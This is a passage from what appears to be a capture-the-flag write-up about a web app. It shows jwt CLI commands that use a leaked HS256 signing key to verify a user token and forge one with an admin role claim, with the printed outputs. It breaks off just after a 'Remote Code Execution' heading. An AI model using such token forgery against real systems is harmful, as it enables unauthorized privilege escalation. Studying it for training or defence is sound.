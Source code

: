 That's the key used for signing the API authentication tokens. Here I verify the `auth-token` created for the unprivileged user above:

```json
$ jwt -alg HS256 -verify <(echo -n "$TOK") -key <(echo -n "$KEY")
{
    "_id": "68016375aed5cf045e2d907d",
    "email": "hax@hax.com",
    "iat": 1744921516,
    "name": "haxhax"
}
```

Forging a token using the HS256 key:

```console
$ jwt -alg HS256 -sign + \
     -key <(printf '%s' "$KEY") \
     -claim _id=68016790aed5cf045e2d9085 \
     -claim name=haxhax2 \
     -claim email=haxhax2@hax.com \
     -claim role=admin
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2ODAxNjc5MGFlZDVjZjA0NWUyZDkwODUiLCJlbWFpbCI6ImhheGhheDJAaGF4LmNvbSIsIm5hbWUiOiJoYXhoYXgyIiwicm9sZSI6ImFkbWluIn0.89L1yBPdEKg9bS-jBUlOXs--LEcfvTJLKRz0cER8TOg

$ TOK='eyJhbG....`

$ jwt -alg HS256 -verify <(echo -n "$TOK") -key <(echo -n "$KEY")
{
    "_id": "68016790aed5cf045e2d9085",
    "email": "haxhax2@hax.com",
    "name": "haxhax2",
    "role": "admin"
}
```

But the `role` claim I added doesn't work:

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 56
ETag: W/"38-ek0dt33YGQS3RTohPHA3ae5v5cE"
Date: Thu, 17 Apr 2025 21:23:22 GMT
Connection: keep-alive

{"role":{"role":"you are normal user","desc":"haxhax2"}}
```

## Remote Code Execution

The previous forged token didn't work, so I try another one with admin details leaked from the documentation on the web page:
